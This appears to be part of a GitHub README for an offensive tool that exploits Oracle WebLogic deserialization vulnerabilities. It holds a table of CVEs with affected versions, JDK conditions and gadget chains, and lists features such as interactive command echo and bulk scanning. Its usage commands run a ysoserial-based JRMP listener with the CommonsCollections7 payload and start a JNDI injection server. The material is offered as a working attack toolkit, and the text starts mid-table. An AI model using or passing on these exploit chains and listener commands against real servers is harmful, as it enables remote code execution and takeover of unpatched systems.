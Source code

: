 | CVE-2020-2551   | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | JDK<6u211/7u201/8u191 | IIOP+JtaTransactionManager [JNDI Inject]                 |
| CVE-2020-2555*  | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | 10.3.6.0 need enabled | Coherence with LimitFilter toString                      |
| CVE-2020-2883*  | 10.3.6.0, 12.1.3.0, 12.2.1.3, 12.2.1.4 | 10.3.6.0 need enabled | Coherence with PriorityQueue+ExtractorComparator         |
| CVE-2020-14625* | 12.2.1.4                               | none                  | UniversalExtractor+TemplateImpl                          |
| CVE-2020-14644* | 12.2.1.3, 12.2.1.4                     | none                  | com.tangosol.internal.util.invoke.RemoteConstructor      |
| CVE-2020-14645  | 12.2.1.4                               | JDK<6u211/7u201/8u191 | UniversalExtractor [JNDI Inject]                         |
| CVE-2020-14825  | 12.2.1.3, 12.2.1.4                     | JDK<6u211/7u201/8u191 | LockVersionExtractor [JNDI Inject]                       |
| CVE-2020-14841  | 12.2.1.3, 12.2.1.4, 14.1.1.0           | JDK<6u211/7u201/8u191 | IIOP protocol resolve [JNDI Inject]                      |
| CVE-2020-14756  | 12.1.3.0, 12.2.1.3, 12.2.1.4           | none                  | ExternalizableHelper bypass resolveClass/jep290          |

## Feature

- Perfectly solved the compatibility problem between coherence.jar and iiop deserialization under different weblogic versions.
- Except for CVE-2019-2725 and CVE-2019-2729, all the vulnerabilities support interactive revealback.
- Contains all of Weblogic's publicly available high-risk deserialization vulnerabilities.
- Support bulk vulnerability scanning.

## Usage

### JRMPServer

Modified from ysoserial, mainly used for jrmpserver.

```
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                                Dependencies
     -------             -------                                ------------
     CommonsCollections1 @frohoff                               commons-collections:3.1
     CommonsCollections2 @frohoff                               commons-collections4:4.0
     CommonsCollections3 @frohoff                               commons-collections:3.1
     CommonsCollections4 @frohoff                               commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     Jdk7u21             @frohoff
```

Different CommonsCollections deserialization chains can be chosen for different environments.

```
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "install"
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "uninstall"
java -cp ysoserial-JRMPServer-0.0.1-all.jar ysoserial.exploit.JRMPListener 8012 CommonsCollections7 "command"
```


[usage]: java -jar JNDIServer.jar -A [ip] -hport [http port] -rpot [rmi port] -lport [ldap port]